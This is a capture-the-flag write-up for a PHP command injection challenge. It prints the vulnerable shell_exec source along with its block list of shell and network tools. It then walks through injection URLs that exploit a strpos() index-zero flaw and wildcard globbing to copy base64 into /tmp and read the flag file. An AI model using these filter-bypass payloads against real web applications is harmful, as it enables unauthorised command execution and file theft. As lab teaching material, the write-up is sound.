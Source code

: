 # Command Injection 4
Web

## Challenge 

So many filters, I think it is enough to make NewWater!

http://challs.hats.sg:1340/

Flag format: flag{.+}

Challenge by: Gladiator

## Solution

Source

        $cmd = $_GET['cmd'];
        $forbidden = ['bash','brltty','bunzip2','busybox','bzcat','bzcmp','bzdiff','bzegrep','bzexe','bzfgrep','bzgrep','bzip2','bzip2recover','bzless','bzmore','cat','chacl','chgrp','chmod','chown','chvt','cp','cpio','dash','date','dd','df','dir','dmesg','dnsdomainname','domainname','dumpkeys','echo','ed','efibootdump','efibootmgr','egrep','false','fgconsole','fgrep','findmnt','find','fuser','fusermount','getfacl','grep','gunzip','gzexe','gzip','hciconfig','hostname','ip','journalctl','kbd_mode','kill','kmod','less','lessecho','lessfile','lesskey','lesspipe','ln','loadkeys','login','loginctl','lowntfs-3g','ls','lsblk','lsmod','mkdir','mknod','mktemp','more','mount','mountpoint','mt','mt-gnu','mv','nano','nc','nc.openbsd','netcat','netstat','networkctl','nisdomainname','ntfs-3g','ntfs-3g.probe','ntfscat','ntfscluster','ntfscmp','ntfsfallocate','ntfsfix','ntfsinfo','ntfsls','ntfsmove','ntfsrecover','ntfssecaudit','ntfstruncate','ntfsusermap','ntfswipe','open','openvt','pidof','ping','ping4','ping6','plymouth','prettyping','ps','pwd','rbash','readlink','red','rm','rmdir','rnano','run-parts','searchsploit','sed','setfacl','setfont','setupcon','sh','sh.distrib','sleep','ss','static-sh','stty','su','sync','systemctl','systemd','systemd-ask-password','systemd-escape','systemd-hwdb','systemd-inhibit','systemd-machine-id-setup','systemd-notify','systemd-sysusers','systemd-tmpfiles','systemd-tty-ask-password-agent','tar','tempfile','touch','true','udevadm','ulockmgr_server','umount','uname','uncompress','unicode_start','vdir','wdctl','which','whiptail','ypdomainname','zcat','zcmp','zdiff','zegrep','zfgrep','zforce','zgrep','zless','zmore','znew','!','@','#','$','%','^','&','(',')','+','=','{','}','[',']','\\','<','<<','>','>>','`','~','``','cat','less','more','head','tail','od','tac','hexdump','echo','touch','usr','>','<','>>','<<','$','bash','sh','sed','awk','etc','root','home','var','lib','flag','txt','a','f','l','g','secrets'];
        $output_forbidden = ['_'];
        foreach ($forbidden as $value) {
            
            if(strpos($cmd, $value)){
                echo "HACKER!";
                die();
            }
        }
        $output = shell_exec($cmd);
        foreach ($output_forbidden as $value) {            
            if(strpos($output, $value)){
                echo "HACKER!";
                die();
            }
        }
 
We see we can't use a lot of commands or even the characters 'a','f','l','g' (flag).

After going around, I noticed that strpos() will return 0 if the forbidden word is located at index 0. This bypasses the check.

Using ls, we find out there is a flag folder.

    Command: ls ../../../../../
    URL:     http://challs.hats.sg:1340/?cmd=ls%20../../../../../

    total 72
    drwxr-xr-x   1 root root 4096 Mar 27 01:09 bin
    drwxr-xr-x   2 root root 4096 Feb  3  2019 boot
    drwxr-xr-x   5 root root  340 Sep  9 09:43 dev
    drwxr-xr-x   1 root root 4096 Sep  7 06:33 etc
    drwxrwxr-x   1 root root 4096 Sep  6 18:42 flag
    drwxr-xr-x   2 root root 4096 Feb  3  2019 home
    //...


Using pwd command, we can we see that there is a folder called `/flag/secrets`.

    Command: pwd;cd /????/*;pwd
    URL:     http://challs.hats.sg:1340/?cmd=pwd;cd%20/????/*;pwd

    /var/www/html
    /flag/secrets

And here we find that the flag is at `/flag/secrets/flag.txt`.

    Command: ls;cd /????/*;ls -l
    URL:     http://challs.hats.sg:1340/?cmd=ls;cd%20/????/*;ls%20-l

    index.php
    total 4
    -rwxrwxr-x 1 root root 58 Sep  6 18:41 flag.txt

I tried all sorts to read it but to no avail. From the source code, the output is also filtered if it contains an underscore.

I thought of using the base64 tool, however, it contains the letter `a` which is forbidden. I decided to try to copy it out to the `tmp` folder.

We can list all the tools in /usr/bin/

    Command: ls /u*r/bin/b*
    URL:     http://challs.hats.sg:1340/?cmd=ls%20/u*r/bin/b*

    /usr/bin/b2sum
    /usr/bin/base32
    /usr/bin/base64
    /usr/bin/basename
    /usr/bin/bashbug


    Command: ls /u*r/bin/b*64
    URL:     http://challs.hats.sg:1340/?cmd=ls%20/u*r/bin/b*64
    /usr/bin/base64

Now, copy out the file to tmp folder.

    Command: cp  /u*r/bin/b*64  /tmp/b64
    URL:     http://challs.hats.sg:1340/?cmd=cp%20%20/u*r/bin/b*64%20/tmp/b64

Check that our file is there

    Command: ls /tmp/
    URL:     http://challs.hats.sg:1340/?cmd=ls%20/tmp/
    b64

Then we can use it.

    Command: /tmp/b64 /????/*/*.*
    URL:     http://challs.hats.sg:1340/?cmd=/tmp/b64%20/????/*/*.*
    ZmxhZ3tNQU1BQUFBQUFBQUFBQUFBQUFBQUFBQUFBQV9KdXN0X2tpbGxlZF9hX21hbm5ubm5ubm59Cg==

Base64 decode for the flag.

## Flag

	flag{MAMAAAAAAAAAAAAAAAAAAAAAAA_Just_killed_a_mannnnnnnn}
